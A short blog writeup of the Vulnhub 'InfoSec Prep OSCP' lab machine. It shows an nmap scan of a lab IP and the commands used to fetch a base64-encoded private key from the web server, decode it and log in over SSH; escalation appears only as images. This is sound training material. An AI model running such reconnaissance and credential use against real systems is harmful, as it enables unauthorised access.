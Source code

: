 ```yaml
---
layout: post
title: Vulnhub InfoSec Prep OSCP Writeup
---
```


# Vulnhub writeup

Start with a full nmap scan
```
nmap -A -p- -oA fullallport 192.168.0.15

Nmap scan report for 192.168.0.15
Host is up (0.00021s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.4.2
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: OSCP Voucher &#8211; Just another WordPress site
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
```
Discovered based64 encoded text on http://192.168.0.15/secret.txt which when decoded is a private key. On the website the user oscp is mentioned which we use to gain access via ssh.

```
wget -O secret.txt http://192.168.0.15/secret.txt
cat secret.txt | base64 -d > key.txt
chmod 600 key.txt
ssh -i key.txt oscp@192.168.0.15
```
Initial access

![ssh](/images/infosec1.png )

Linux Smart Enum scripts

![scripts](/images/infosec2.png )

Privilege Escalation

![esc](/images/infosec3.png )
